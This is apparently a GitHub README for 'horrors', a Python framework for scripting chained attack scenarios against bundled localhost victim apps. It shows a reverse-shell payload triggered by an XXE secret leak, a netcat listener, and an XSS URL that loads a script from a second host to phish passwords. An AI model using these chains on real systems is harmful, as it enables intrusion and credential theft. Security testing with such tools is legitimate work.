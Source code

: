 # horrors

> A micro-framework for writing attack scenarios starring multiple vulnerabilities.

## About

This framework was created in order to simplify attack automation and exploit development. All you have to do is, for example:

```python
async def reverse_shell(scenario):
    await scenario.http_post(
        'http://{rhost}:{rport}/query/'.format(**scenario.context),
        'secret={secret}&query=DROP+TABLE+IF+EXISTS+[...]{lhost}+{lport_reverse}'.format(**scenario.context),
        scenario.context['post_headers'],
    )

context = {
    'rhost': '127.0.0.1',
    'rport': 8008,
    'lhost': '127.0.0.1',
    'lport_reverse': 4444,
    'post_headers': {'Content-Type': 'application/x-www-form-urlencoded'},
}

story = scenarios.Scenario(**context)
story.set_debug()
story.set_proxy('http': 'http://127.0.0.1:8080')

ftpd = services.FTPReader(story)
ftpd.set_event('xxe', when=triggers.DataMatch(r'.+SecretKey=(.+);', bucket='secret'))

story.add_scene(reverse_shell, when='xxe')
story.play()
```

## Installation

    $ git clone https://github.com/tasooshi/horrors
    $ cd horrors; pip3 install .

## Example

Examples are included in the `horrors/examples` directory. Try it out by running:

### 1. vulnchain

    $ nc -lv4 4444
    $ horrors/examples/vulnchain/victim.py
    $ horrors/examples/vulnchain/attacker.py

[![example](https://img.youtube.com/vi/VQwysZItPrE/0.jpg)](https://www.youtube.com/watch?v=VQwysZItPrE)

### 2. xssphish

Or (this one requires interaction):

    $ horrors/examples/xssphish/victim.py
    $ horrors/examples/xssphish/attacker.py

Now visit `http://127.0.0.1:8008/?message=<script src="http://127.0.0.1:8888/fakequery.js"></script>`, type some passwords and watch `collected.json` for incoming credentials.

![xssphish](examples/xssphish/dom-based-xss-phish.jpg)


## Changelog

* **2021/12/14** Beta (v0.5)
    * Improved HTTP proxy logic
* **2021/12/12** Beta (v0.4)
    * A bit of asyncio cleaning up
    * Fixed examples to match the new API
    * Simplified services imports and generally everything
    * Changed default ports
    * Added requirements to setup.py
    * Replaced requests with aiohttp
* **2021/08/26** Beta (v0.3)
    * Yet another refactoring.
    * Added full HTTP support using Flask.
    * Added `utility/collector.py` to simplify data collection from exploited machines (and another related example).
* **2021/08/10** Beta (v0.2)
    * Refactored and largely simplified codebase: it is now easier to reuse code between multiple scenarios by mixing functions, wrapping in classes etc.
    * Steps are not executed sequentially, you decide depending on signals (events) registered when adding to scenario (`story.add(func, when='something')`).
    * Removed asyncio.Event dependency since I was not able to make it work the way I wanted.
* **2021/07/30** Initial release (v0.1)
